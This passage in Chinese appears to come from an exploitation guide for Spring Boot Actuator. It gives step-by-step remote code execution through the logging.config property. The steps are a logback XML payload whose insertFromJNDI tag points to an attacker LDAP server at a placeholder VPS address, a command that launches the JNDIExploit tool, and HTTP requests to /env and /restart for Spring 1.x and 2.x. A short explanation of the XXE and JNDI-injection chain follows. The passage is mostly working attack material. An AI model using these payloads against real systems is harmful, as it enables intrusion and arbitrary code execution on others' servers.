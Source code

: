 在根目录放置以 `xml` 结尾的 `example.xml` 文件，实际内容要根据步骤二中使用的 JNDI 服务来确定：

```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/TomcatBypass/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9y" as="appName" />
</configuration>
```

**步骤二：托管恶意 ldap 服务及代码**

参考[文章](https://landgrey.me/blog/21/)，修改 [JNDIExploit](https://github.com/feihong-cs/JNDIExploit) 并启动（也可以使用其他方法）：

```
java -jar JNDIExploit-1.0-SNAPSHOT.jar -i your-vps-ip
```

**步骤三：设置 logging.config 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

logging.config=http://your-vps-ip/example.xml
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"logging.config","value":"http://your-vps-ip/example.xml"}
```

**步骤四：重启应用**

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json
```

**漏洞原理：**

1. 目标机器通过 logging.config 属性设置 logback 日志配置文件 URL 地址
2. restart 重启应用后，程序会请求 URL 地址获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意 JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞
